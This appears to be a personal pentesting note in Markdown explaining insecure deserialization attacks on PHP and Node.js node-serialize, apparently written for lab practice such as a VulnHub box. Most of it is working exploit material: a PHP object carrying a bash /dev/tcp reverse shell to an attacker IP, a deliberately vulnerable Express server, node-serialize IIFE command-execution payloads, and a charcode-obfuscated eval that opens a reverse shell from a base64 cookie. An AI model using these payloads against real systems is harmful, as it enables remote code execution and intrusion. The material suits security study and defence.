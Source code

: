 
# Definition

## What is the serialization of data

Mechanism that allow to transport [object](https://www.techtarget.com/searchapparchitecture/definition/object-oriented-programming-OOP) in a network

When we can manipulate the serialized object and isn't sanitized, we can change this to inject malicious code (like reverse shell)

---

# PHP deserialization attack

In the request we can see something like that:

````bash
obj=O%3a8%3a"pingTest"%3a1%3a{s%3a9%3a"ipAddress"%3bs%3a12%3a"192.168.1.39"%3b}%26ip%3d192.168.1.39
````

If we url-decoded:
````bash
obj=O:8:"pingTest":1:{s:9:"ipAddress";s:12:"192.168.1.39";}&ip=192.168.1.39
````

`O:8:"pingTest"` --> **O of Object**, The object have eight characters of length 
`s:9:"ipAddress"` --> s of **String** of nine characters


You can create a serialization data:

````php
<?php

class pingTest{
        public $ipdAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.1.39:443 0>&1'";
        public $isValid = True;
        public $output = "";
}

echo urlencode(serialize(new pingTest));

````

Execute the program with **php name.php; echo** and you can copy the text and put in burpsuite, in the correspondent field.

Example:

````bash
obj=O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A53%3A%22%3B+bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.1.39%2F443+0%3E%261%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A1%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D&ip=192.168.1.39
````

The ip is our attacker machine

----

# Node.js deserialization attack

Create the server with this code:

After run this you have to install this:
- node
- npm
- npm install express node-serialize cookie-parser

````js
//server.js

var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) {
     res.send("Hello " + escape(obj.username));
   }
 } else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello World");
});
app.listen(3000);
````

To run this you have to put:

> node server.js


Now you can run your explorer and open localhost:3000 

When you refresh you see that the name change, if you intercept the request with burpsuite you can see that have a cookie that is url-encoded and in base64, you can decode this, change and encode again

### Serialization

In nodeJS the function for serialization is this:

````bash
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
````

You can see that there a try of command injection, but this don't work, they serialize the instruction

To obtain the serialize data you have to execute the script:

> node serialize.js

There are a concept that is **IIFE** (**I**mmediately **I**nvoked **F**unction **E**xpression) that allow to realize the call in the moment, this is add brackets() in the code, at the end of the variable y:

````js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
````

When you execute the script, now **the command is executed**

### Function to unserialize

````js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'id\', function(error, stdout, stderr) { console.log(stdout) });}()"}'; //serialized data here
serialize.unserialize(payload);
````

You have to escape single quotes and line breaks

You have to add the **IIFE**, when the server deserealize the data, the command is going to execute thanks to the brackets of IIFE

And now, if you run the script, you can see how the command is executed:

> node unserialize.js


# Obtain a reverse shell

There are an script in python that allow you to generate a reverse shell. [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) 

> python2.7 nodejsshell attackerIP PORT

With the data obtainer you have to create a file with this:


````js
{"rce":"_$$ND_FUNC$$_function(){}()"}
````

Then introduce the data of reverse shell

````js
{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,49,46,51,57,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

````


It's **important**, the information must be send with **base64**

> cat data | base64 -w 0; echo

``-w 0`` --> All in the same line

Now, in cookie profile (in intruder), if you put all the data and put in listening mode in the port indicate (443 in this example)



---
# Resources

- https://www.vulnhub.com/entry/cereal-1,703/ (PHP)
- https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ (NODE)

---
# Tags



#vulnerabilty #deserialization #php #node 